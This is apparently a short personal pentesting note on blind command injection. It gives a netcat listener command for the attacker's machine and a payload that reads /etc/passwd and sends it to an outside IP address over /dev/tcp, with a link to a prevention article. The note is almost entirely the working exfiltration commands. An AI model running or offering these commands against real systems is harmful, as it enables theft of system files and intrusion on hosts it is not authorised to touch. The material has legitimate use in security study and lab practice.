 ```yaml
---
tags:
- cmdInjection
---
```

# CMD Injection.  Send  the result of command to an attacker's machine

## Send  the result of command to an attacker's nc
At an attacker's machine 
```bash
nc -nlvp 9090
```

Payload
```
cat /etc/passwd > /dev/tcp/192.168.45.194/9090
```
See  [[2023090517533434 CMD Injection.  Send  the result of command to an attacker's machine#^e403ca]]


## References
1. https://www.rangeforce.com/blog/how-to-prevent-blind-command-injection  ^e403ca